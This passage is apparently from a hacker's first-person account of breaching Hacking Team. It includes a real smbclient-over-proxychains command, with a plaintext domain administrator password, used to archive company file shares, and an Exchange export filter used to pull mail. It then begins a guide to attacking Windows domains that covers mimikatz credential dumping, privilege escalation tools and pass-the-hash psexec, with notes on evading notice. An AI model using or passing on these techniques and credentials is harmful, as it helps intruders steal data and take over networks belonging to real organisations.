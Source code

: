-ContentFilter {(Received -ge '05/06/2015') -or (Sent -ge '05/06/2015')}

with New-MailboxExportRequest to download the new mails (in this case
all the mails from June 5th onward). The problem was that it said that
the date is invalid if the day is greater than 12 (imagine that this
is because the month is usually put first in the EU, and the month
can't be greater than 12). It seems that the engineers at Microsoft
had only tested their software on their own regional configuration.

	[1] http://www.stevieg.org/2010/07/using-the-exchange-2010-sp1-mailbox-export-features-for-mass-exports-to-pst/

**--[ 12 - Downloading archives ]----------------------**

Now that I was the domain's admin, I started downloading the shared
resources using my proxy and smbclient's -Tc option. For example:

proxychains smbclient '//192.168.1.230/FAE DiskStation' \
    -U 'HACKINGTEAM/Administrator%uu8dd8ndd12!' -Tc FAE_DiskStation.tar '*'

This is where the Amministrazione, FAE DiskStation, and FileServer
folders in the torrent came from.

**--[ 13 - Introduction to hacking a Windows domain ]-----**

I'd like to take a break from the story of these fuckers [weones
culiaos], to share a bit of knowledge about attacking Windows
networks.

**--[ 13.1 - Lateral movement ]---------------------------**
I'm going to give a quick review of the techniques used for spreading
out inside a Windows network. The techniques for remote execution
require a local administrator's password or hash to work. Often, the
most common way of obtaining these credentials is to use mimikatz [1],
and above all sekurlsa::logonpasswords and sekurlsa::msv, from the
machines you already have administrative access to. The techniques for
moving around "in situ" also require administrative privileges (except
for runas). The most important tools for
privilege escalation are PowerUp [2], and bypassuac [3].

	[1] https://adsecurity.org/?page_id=1821
	[2] https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp
	[3] https://github.com/PowerShellEmpire/Empire/blob/master/data/module_source/privesc/Invoke-BypassUAC.ps1

Remote navigation:

1) psexec

   The tried and tested way of navigating Windows networks. You can
   use psexec [1], winexe [2], metasploit's psexec_psh [3], powershell
   empire's invoke_psexec [4], or the Windows command "sc" [5]. For
   the metasploit module, powershell empire, and pth-winexe [6], it's
   enough to know the hash without knowing the password. This is the
   most universal way (it works on any computer with port 445 open),
   but it is also the least cautious. Events of type 7045 "Service
   Control Manager" will appear in the registry. In my experience,
   this has never tipped anyone off during a hack, but it's something
   they might notice afterwards, and it might help the investigators
   figure out what the hacker was doing.
